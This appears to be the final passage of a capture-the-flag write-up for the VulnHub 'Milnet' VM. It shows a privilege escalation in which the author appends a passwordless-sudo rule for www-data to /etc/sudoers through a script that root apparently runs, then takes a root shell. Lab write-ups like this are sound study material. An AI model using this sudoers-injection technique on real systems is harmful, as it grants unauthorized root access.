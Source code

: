 drwxrwxrwt  2 root root 4096 Jun  3 08:26 .font-unix
-rw-r--r--  1 root root   39 Jun  3 09:05 id.txt
drwx------  3 root root 4096 Jun  3 08:26 systemd-private-7060a45ca3a74b00b3de2e03b690a5a5-systemd-timesyncd.service-qdQWyT
www-data@seckenheim:/var/www/html$ cat /tmp/id.txt
uid=0(root) gid=0(root) groups=0(root)
www-data@seckenheim:/var/www/html$
{% endhighlight %}

<p>Finally, I have added a www-data user to <code>/etc/sudoers</code>to get access to the root user! I am sure others will have different way to do this!
{% highlight bash %}echo "www-data  ALL=(ALL) NOPASSWD:ALL" >> /etc/sudoers{% endhighlight %}
<p>into shell.sh file. And after one minute!!</p>
{% highlight bash %}
www-data@seckenheim:/var/www/html$ sudo su
sudo su
root@seckenheim:/var/www/html# id
uid=0(root) gid=0(root) groups=0(root)
root@seckenheim:/var/www/html# ls -l /root
total 4
-rw-r--r-- 1 root root 1727 May 21 22:42 credits.txt
root@seckenheim:/var/www/html#
{% endhighlight %}
<img src="/assets/images/milnet/end.jpg">

<p>Finally, I would like to thank <code>@teh_warriar</code> and <code>#vulnhub</code> for the VM. It was fun.</p>







